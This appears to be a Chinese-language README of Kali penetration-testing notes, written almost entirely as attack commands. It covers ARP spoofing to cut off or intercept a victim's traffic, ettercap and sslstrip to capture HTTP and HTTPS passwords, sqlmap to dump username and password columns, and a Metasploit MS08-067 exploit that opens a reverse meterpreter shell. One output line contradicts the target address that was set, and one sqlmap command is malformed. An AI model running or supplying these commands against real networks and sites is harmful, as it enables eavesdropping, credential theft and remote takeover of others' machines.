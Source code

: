 # Kali渗透笔记


[001.arpspoof断网攻击](arpspoof/001.arpspoof断网攻击.md)
---
```bash
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

[002.arpspoof流量转发](arpspoof/002.arpspoof流量转发.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```


[003.arpspoof+driftnet截取目标主机浏览的图片](arpspoof/003.arpspoof+driftnet截取目标主机浏览的图片.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启新的终端

```bash
driftnet -i eth0
```

[004.arpspoof+ettercap获取http账号密码](arpspoof/004.arpspoof+ettercap获取http账号密码.md)
---


```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启新的终端

```bash
ettercap -Tq -i eth0
```

[005.arpspoof+ettercap+sslstrip获取https账号密码](arpspoof/005.arpspoof+ettercap+sslstrip获取https账号密码.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启一个新的终端

```bash
sslstrip -a -f -k
```

开启一个新的终端

```bash
ettercap -Tq -i eth0
```

[001.sqlmap注入asp程序](sqlmap/001.sqlmap注入asp程序.md)
---

```bash
sqlmap -u "http://www.example.com/news.asp?id=110" 
```


```bash
sqlmap -u "http://www.example.com/news.asp?id=110"   --tables
```

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --columns -T "user"
```

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --dump -C "username,password" -T "user"
```

[002.sqlmap注入php程序](sqlmap/002.sqlmap注入php程序.md)
 ---
 
 ```bash
 sqlmap -u "http://www.example.com/news.php?id=110" 
 ```

 ```bash
 sqlmap -u "http://www.example.com/news.php?id=110"  --is-dba
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110"  --dbs
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --current-db
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --tables -D "db"
 ```
  
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --colums -T "admin_user" -D 
 ```

[003.sqlmap之cookie注入](sqlmap/003.sqlmap之cookie注入.md)
 ---

 ```bash
 sqlmap -u "http://www.example.com/news.php" --cookie "id=110" --level 2
 ```
 
 ```bash
 sqlmap -u "http://www.example.com/news.php" --columns -T "user" --cookie "id=110" --level 2
 ```
 
 ```bash
 sqlmap -u "http://www.example.com/news.php" --dump  -C "username,password" -T "user"  --cookie "id=110" --level 2
 ```

[001.metasploit使用简介](metasploit/001.metasploit使用简介.md)
---

##启动metasploit
```bash
root@kali:~# msfconsole
```

```                                              
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with
Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.11.5-2016010401                   ]
+ -- --=[ 1517 exploits - 875 auxiliary - 257 post        ]
+ -- --=[ 437 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
```
###基本命令
```bash
msf > help
```

```bash
msf > show
```

```bash
msf > clear
```
###设置选项并攻击
```bash
msf > use exploit/windows/smb/ms08_067_netapi 
```

```
msf exploit(ms08_067_netapi) > show options
```

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.1.3
RHOST => 219.225.51.172
```

```
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```

```
msf exploit(ms08_067_netapi) > show options
```

```bash
msf exploit(ms08_067_netapi) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
```

```bash
msf exploit(ms08_067_netapi) > exploit
```




























